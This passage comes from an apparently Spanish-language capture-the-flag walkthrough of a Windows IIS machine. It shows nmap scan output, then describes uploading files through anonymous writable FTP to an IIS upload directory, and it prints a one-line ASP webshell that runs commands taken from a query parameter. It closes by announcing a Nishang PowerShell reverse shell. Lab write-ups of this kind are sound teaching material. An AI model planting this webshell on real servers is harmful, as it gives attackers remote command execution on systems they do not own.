 ```ruby
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-09-05T16:35:32
|_  start_date: 2023-09-05T16:08:28
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```

---------
#### Abusing IIS - File Upload via FTP (Malicious ASP file) [RCE]  
Vemos que el puerto **21** de **FTP** esta activo, además, permite conexiones como **Anonimos**. Tenemos un puerto **80** el cual aloja un **IIS**. En **FTP** ademas de tener la capacidad de conectarnos, también podemos escribir archivos. Al subir uno, podemos deducir que puede estar relacionado con el **IIS** pero al visitar la ruta no vemos nada:
![[Pasted image 20230905094509.png]]

Haciendo un poco de **Guessing** damos con la ruta **Upload** la cual tiene capacidad de **directory list** y vemos también el archivo que acabamos de subir:
![[Pasted image 20230905094524.png]]

Vamos aprovecharnos de esto para subir una webshell en **Asp-Aspx** dado que es un **IIS** y sabemos de lleno que lo interpretara. Como el CMD.aspx comun da problemas, usaremos este OneLine escrito en **ASP**:
```asp
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

--------
#### Nishang Invoke-PowerShellTcp Shell
Ahora con la ejecución remota de comandos podemos intentar entablarnos una reverse shell con el [repositorio]() de nishan, asi como lo hemos echo en incontables [[Most Important - Bart|ocasiones]].
